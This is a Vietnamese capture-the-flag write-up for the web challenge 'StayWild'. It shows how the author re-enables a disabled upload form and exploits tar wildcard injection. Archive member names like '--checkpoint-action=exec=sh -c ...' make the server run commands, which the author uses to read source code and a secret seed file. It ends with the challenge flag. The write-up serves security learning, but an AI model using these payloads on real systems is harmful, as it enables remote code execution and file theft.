





# web/StayWild

## Recon

Trang chủ là một site tĩnh Wildlife Archive. Response luôn set cookie:

```http
Set-Cookie: role=visitor; Path=/; SameSite=Lax
```

`robots.txt` không có `Disallow`, nhưng có hint:

```text
Field archive tooling is not ready for public indexing.
```

Fuzz route tìm được endpoint ẩn:


Mở `/staging` thấy form upload archive:



```text
Only .tar files are accepted at this stage.
```

## Tạo workspace

Upload một tar bình thường:


Trang workspace hiển thị log extract và lộ thêm route:

```html
<form action="/additional/1784486716375" method="POST" enctype="multipart/form-data">
```

Nút upload additional bị disable ở client-side.



Tắt disable:

```js
enableExperimentalIntake()
```



## Phân tích lỗi

Upload tiếp vào:

```text
/additional/1784486716375
```

File upload phải để tên là:

```text
materials.tar
```

Route additional whitelist filename upload, nên tên ngoài multipart phải là `materials.tar`. Nếu để filename khác thì sẽ bị reject.

Trong `materials.tar`: 

```
.
|-- materials.tar
|   |-- --checkpoint=1
|   |-- --checkpoint-action=exec=id
|   `-- base
```

Nội dung các file có thể rỗng.

Sau khi upload `materials.tar`, server extract lại trong workspace cũ:


Log có lỗi:
- `tar: materials.tar: Not found in archive`
- `tar: seed.tar: Not found in archive`

Lần upload payload đầu chỉ để thả các filename đó vào workspace.

Upload thêm một `materials.tar` chỉ có `base` để trigger.



Vậy RCE chạy được.

## Khai thác

Dùng bug để đọc source app. Tạo payload đọc `server.js`:

```
.
|-- materials.tar
|   |-- --checkpoint=1
|   |-- --checkpoint-action=exec=sh -c 'cd ..;cd ..;cd ..;cd ..;cd app;sed -n 1,150p server.js'
|   `-- base
```


Sau đó upload tiếp một `materials.tar` trigger:

```js
const SEED_FILE = process.env.SEED_FILE || "/opt/wild/.cache/seed-574";
```



Biết path seed rồi thì tạo additional mới. Tạo payload đọc seed:

```
.
|-- materials.tar
|   |-- --checkpoint=1
|   |-- --checkpoint-action=exec=sh -c 'cd ..;cd ..;cd ..;cd ..;cd opt;cd wild;cd .cache;cat seed-574'
|   `-- base
```

Sau đó upload `materials.tar` trigger. Log trả về:


```text
b21uaUNURnt3MWxkYzRyZHNfY2FuX2czdF93MWxkfQ==
```

## Flag

```text
omniCTF{w1ldc4rds_can_g3t_w1ld}
```
